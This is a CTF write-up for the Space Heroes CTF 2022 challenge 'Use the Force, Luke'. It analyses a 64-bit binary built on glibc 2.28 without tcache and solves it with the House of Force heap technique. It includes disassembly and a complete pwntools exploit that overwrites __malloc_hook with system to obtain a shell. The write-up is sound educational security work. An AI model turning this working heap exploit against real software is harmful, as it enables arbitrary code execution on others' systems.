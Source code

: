 ```yaml
---
title: "Pwn: Use the Force, Luke"
date: 2025-01-15
draft: false
summary: Space Heroes CTF 2022. House of Force heap exploitation.
tags:
  - heap
  - house-of-force
category: Pwn
---
```

###### Challenge
We are provided a zip file which contains the binary *force* and its GLIBC. The binary seems to be using `GLIBC 2.28 No TCache`. Let's analyze the binary to get more information.

`force: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./.glibc/glibc_2.28_no-tcache/ld.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c50b5c7f0a7dc45dd3409c7fbf1350c534c52662, not stripped`

```
┌──(chronopad㉿VincentXPS)-[~/Documents/ctf2025/SpaceHeroesCTF_2022/usetheforceluke]
└─$ checksec force
[*] '/home/chronopad/Documents/ctf2025/SpaceHeroesCTF_2022/usetheforceluke/force'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'./.glibc/glibc_2.28_no-tcache'
    Stripped:   No
```

We are given a custom GLIBC file, which means that there's a specific exploit that we can only perform in this specific GLIBC version, usually a part of heap exploitation techniques.

###### Solution
If we run the binary, we are given two addresses leak. One address is system and the other seems to be the address of the heap. We are then given two choices, which is to "Reach out with the force" or to "Surrender". Surrendering will exit the program while the first option will trigger some questions. To understand what they do, we can try disassembling the binary. Here is a part of `main()` disassembled with **radare2**.

```
│     │╎│   0x004009a2      488d3dbc0100.  lea rdi, str.How_many_midi_chlorians_:_ ; 0x400b65 ; "How many midi-chlorians?: "
│     │╎│   0x004009a9      b800000000     mov eax, 0
│     │╎│   0x004009ae      e8bdfdffff     call sym.imp.printf         ; int printf(const char *format)
│     │╎│   0x004009b3      488d45e0       lea rax, [var_20h]
│     │╎│   0x004009b7      4889c6         mov rsi, rax
│     │╎│   0x004009ba      488d3dbf0100.  lea rdi, str._llu           ; 0x400b80 ; "%llu"
│     │╎│   0x004009c1      b800000000     mov eax, 0
│     │╎│   0x004009c6      e8e5fdffff     call sym.imp.__isoc99_scanf ; int scanf(const char *format)
│     │╎│   0x004009cb      488d3db30100.  lea rdi, str.What_do_you_feel_:_ ; 0x400b85 ; "What do you feel?: "
│     │╎│   0x004009d2      b800000000     mov eax, 0
│     │╎│   0x004009d7      e894fdffff     call sym.imp.printf         ; int printf(const char *format)
│     │╎│   0x004009dc      488b45e0       mov rax, qword [var_20h]
│     │╎│   0x004009e0      4889c7         mov rdi, rax
│     │╎│   0x004009e3      e8b8fdffff     call sym.imp.malloc         ;  void *malloc(size_t size)
```

We can see that the program calls `malloc()`, using the amount of midi-chlorians as the chunk size. Anything we input to the "What do you feel?" question will then be written to the heap memory chunk.

Based on the challenge name, we can pretty much guess that this challenge is a House of Force heap exploitation challenge. This exploitation techniques works by writing more data to the heap more than the chunk size that we requested, which overwrites the size field of the top chunk of the heap, allowing us to do arbitrary write and even code execution.

![Image Description](/images/Pasted%20image%2020250115205717.png)

Because this is just a standard / base-case of the House of Force technique, I'll cut the explanation and go straight for the exploitation. If you are interested about the exploitation, feel free to read the resource below:
- https://mohamed-fakroud.gitbook.io/red-teamings-dojo/binary-exploitation/heap-house-of-force

```
# exploit.py
from pwn import *

elf = context.binary = ELF("./force")
libc = ELF("./.glibc/glibc_2.28_no-tcache/libc-2.28.so")
io = process(elf.path)
context.log_level = 'debug'

def malloc(size, data):
	io.sendlineafter(b"(2) Surrender\n", b"1")
	io.sendlineafter(b"How many midi-chlorians?: ", str(size).encode())
	io.sendlineafter(b"What do you feel?: ", data)

io.recvuntil(b"You feel a system at ")
libc.address = int(io.recvline().decode(), 16) - libc.sym["system"]
io.recvuntil(b"You feel something else at ")
heap_addr = int(io.recvline().decode(), 16)

print(f"Libc address: {hex(libc.address)}")

malloc(24, b"/bin/sh\x00" + b"A"*16 + p64(0xffffffffffffffff))
malloc((libc.sym["__malloc_hook"] - 0x20) - (heap_addr + 0x20), b"A")
malloc(24, p64(libc.sym["system"]))
# malloc(str(heap_addr + 0x10).encode(), b"A")
malloc(next(libc.search(b"/bin/sh")), b"") # Honestly more reliable

io.interactive()
```
